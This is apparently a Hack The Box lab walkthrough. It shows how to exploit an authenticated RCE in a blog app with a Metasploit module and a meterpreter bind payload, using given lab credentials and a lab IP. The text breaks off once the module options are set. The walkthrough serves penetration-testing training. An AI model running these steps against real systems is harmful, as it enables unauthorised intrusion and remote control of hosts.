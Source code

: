 ### "Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt"

Using the previously established RDP session to the jump host, students need to open `blog.inlanefreight.local` with `Firefox`:

Code: shell

```shell
firefox blog.inlanefreight.local
```

```
┌─[htb-student@skills-foothold]─[~]
└──╼ $firefox blog.inlanefreight.local
```

![[HTB Solutions/CPTS/z. images/0eaec10c806df851912c996d643aaa24_MD5.jpg]]

When scrolling down within the blog, students will notice that the user "Slade Wilson" has posted that this blog suffers from the [Lightweight facebook-styled blog 1.3 - Remote Code Execution (RCE) (Authenticated)](https://enterprise.hackthebox.com/academy-lab/42667/3329/modules/115/exploit-db.com/exploits/50064) exploit:

![[HTB Solutions/CPTS/z. images/fd0429461483ce5d1f901887d7e6f1e4_MD5.jpg]]

Since the exploit requires authentication, students are given the credentials `admin:admin123!@#` under "Host-2 hint":

![[HTB Solutions/CPTS/z. images/5b0c8857cb468d89c95cc67c416c2e24_MD5.jpg]]

Afterward, students need to launch `msfconsole` and use the `50064.rb` module:

Code: shell

```shell
msfconsole -q
use 50064.rb
```

```
┌─[htb-student@skills-foothold]─[~]
└──╼ $msfconsole -q

msf6 > use 50064.rb
[*] Using configured payload php/meterpreter/bind_tcp
```

Subsequently, students need to set the module's options accordingly, most importantly setting the `vhost` option to `blog.inlanefreight.local` and setting `RHOST` and `RHOSTS` to `172.16.1.12` (this IP address can be attained by reading `/etc/hosts` of the jump host):

Code: shell

```shell
set VHOST blog.inlanefreight.local
set RHOSTS 172.16.1.12
set RHOST 172.16.1.12
set USERNAME admin
set PASSWORD admin123!@#
```
